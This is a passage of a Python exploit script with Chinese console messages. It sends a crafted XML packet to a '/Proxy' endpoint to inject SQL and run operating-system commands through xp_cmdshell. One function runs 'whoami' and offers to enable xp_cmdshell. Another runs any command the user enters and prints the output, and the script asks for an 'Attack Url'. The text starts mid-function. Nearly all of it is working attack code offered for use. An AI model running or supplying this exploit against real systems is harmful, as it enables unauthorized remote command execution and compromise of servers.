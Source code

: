 ```

        except:
            print("\033[31m[x] 开启 xp_cmdsheall 失败 \033[0m")
            sys.exit(0)

def POC_2(target_url, db_name):
    db_name = db_name
    sql_cmd_url = target_url + "/Proxy"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Content-Type": "application/x-www-form-urlencoded"
    }
    data = """cVer=9.8.0&dp=<?xml version="1.0" encoding="GB2312"?><R9PACKET version="1"><DATAFORMAT>XML</DATAFORMAT><R9FUNCTION><NAME>AS_DataRequest</NAME><PARAMS><PARAM><NAME>ProviderName</NAME><DATA format="text">DataSetProviderData</DATA></PARAM><PARAM><NAME>Data</NAME><DATA format="text">exec xp_cmdshell "whoami"</DATA></PARAM></PARAMS></R9FUNCTION></R9PACKET>"""
    try:
        print("\033[32m[o] 正在执行SQL语句:exec xp_cmdshell 'whoami'...\033[0m")
        response = requests.post(url=sql_cmd_url, headers=headers, data=data, timeout=10)
        if 'exec xp_cmdshell' in response.text:
            print("\033[31m[x] 数据库未开启 xp_cmdshell 模块\033[0m")
            sqlcmd_open = str(input("\033[35m是否开启 xp_cmdshell\n(Y/N)   >>> \033[0m"))
            if sqlcmd_open == 'Y' or sqlcmd_open == 'y':
                xp_cmdshell_open(target_url, db_name)
            else:
                print("\033[31m[x] 停止开启 xp_cmdshell \033[0m")
                sys.exit(0)
        else:
            whoami = re.findall(r'output="(.*?)"', response.text)[0]
            print("\033[32m[o] 成功执行SQL语句:exec xp_cmdshell 'whoami'...\n>>> {}\033[0m".format(whoami))

    except Exception as e:
        print("\033[31m[x] 请求失败:{} \033[0m".format(e))
        sys.exit(0)

def POC_3(target_url, cmd):
    vuln_url = target_url + "/Proxy"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Content-Type": "application/x-www-form-urlencoded"
    }
    data = 'cVer=9.8.0&dp=<?xml version="1.0" encoding="GB2312"?><R9PACKET version="1"><DATAFORMAT>XML</DATAFORMAT><R9FUNCTION><NAME>AS_DataRequest</NAME><PARAMS><PARAM><NAME>ProviderName</NAME><DATA format="text">DataSetProviderData</DATA></PARAM><PARAM><NAME>Data</NAME><DATA format="text">exec xp_cmdshell "{}"</DATA></PARAM></PARAMS></R9FUNCTION></R9PACKET>'.format(cmd)
    try:
        print("\033[32m[o] 正在执行SQL语句:exec xp_cmdshell '{}'...\033[0m".format(cmd))
        response = requests.post(url=vuln_url, headers=headers, data=data, timeout=10)

        data = re.findall(r'output="(.*?)"', response.text)
        for i in data:
            print("\033[32m >>> {}\033[0m".format(i))
    except Exception as e:
        print("\033[31m[x] 请求失败:{} \033[0m".format(e))
        sys.exit(0)


if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl   >>> \033[0m"))
```